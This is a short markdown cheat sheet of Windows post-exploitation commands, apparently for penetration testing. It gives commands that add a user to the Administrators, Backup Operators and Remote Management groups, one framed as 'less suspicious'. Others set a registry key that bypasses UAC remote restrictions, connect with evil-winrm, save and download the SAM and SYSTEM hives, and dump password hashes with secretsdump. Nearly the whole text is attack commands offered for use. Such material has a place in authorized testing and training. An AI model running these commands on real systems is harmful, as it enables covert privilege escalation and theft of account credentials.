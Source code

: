 # 🌆  Windows / Commands

This documents is for windows

---

## 🧚‍♀️ Admin perm via group

- Add administrator group for a user\
`net localgroup administrators <USER> /add`

- Add B.O to get SAM content and be less supicious\
`net localgroup "Backup Operators" <USER> /add`

- Add user to allow RDP\
`net localgroup "Remote Management Users" <USER> /add`

---

## 🛸 UAC

- Desactivate the option in reg to use admin with rdp\
`reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1`

---

## 🦉 Evil WinRm

- Connect to a windows machine\
`evil-winrm -i <IP> -u <USER> -p <PASSWORD>`

- Download the sam file\
`reg save hklm\sam sam.bak` \
`reg save hklm\system system.bak` \
`download sam.bak` \
`download system.bak`

- Dump password hash\
`python3 secretsdump.py -sam sam.bak -system system.bak LOCAL`\
> [!IMPORTANT]
> Download the python [file](https://github.com/fin3ss3g0d/secretsdump.py/blob/main/secretsdump.py).



---
